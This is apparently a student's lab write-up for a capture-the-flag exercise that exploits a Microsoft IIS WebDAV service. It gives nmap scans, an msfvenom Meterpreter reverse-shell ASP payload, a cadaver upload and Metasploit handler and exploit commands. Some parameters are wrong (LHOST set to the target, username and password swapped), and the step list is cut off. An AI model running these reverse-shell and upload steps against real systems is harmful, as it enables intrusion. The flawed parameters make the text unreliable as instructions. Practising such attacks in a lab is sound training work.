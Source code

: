 #### Tools
nmap
msfvenom
cadaver

#### Websites

#### Commands
```
nmap -sV -p 80 --script=http-enum target_ip
```

Generate payload for target ip
p=payload
f=file                  asp made into a shell.asp file
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=target_up LPORT=port -f asp > shell.asp
```

Access webdav command line
```
cadaver target_url/webdav
```

Upload payload
```
put  
```

Setup handler
```
service postgresql start && msfconsole
use multi/handler 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST target_ip
set LPORT target_port
run
```

## Overview

A Kali GUI machine and a vulnerable target machine are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the service using the tools available on the Kali machine and exploit it with the Metasploit. 

Objective: Exploit the service and retrieve the flag!

The following username and password may be used to access the service:

| Username | Password | | bob | password_123321 |

10.4.26.72

```
nmap -p 80 -sS -sV 10.4.26.72

80/tcp open  http    Microsoft IIS httpd 10.0
```

```
nmap --script http-enum.nse 10.4.26.72 

ORT     STATE SERVICE
80/tcp   open  http
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
```

```
use exploit(windows/iis/iis_webdav_upload_asp)
set httppassword bob
set httpusername password_123321
set path /webdav/metasploit%RAND%.asp
exploit
```

## Lab
Steps: 
1. Scan IP for open ports and active services
2. Create payload for that service, containing a reverse shell named shell.asp
3. Launch msfconsole
4. Use the reverse_tcp uploaded, execute the payload
5. 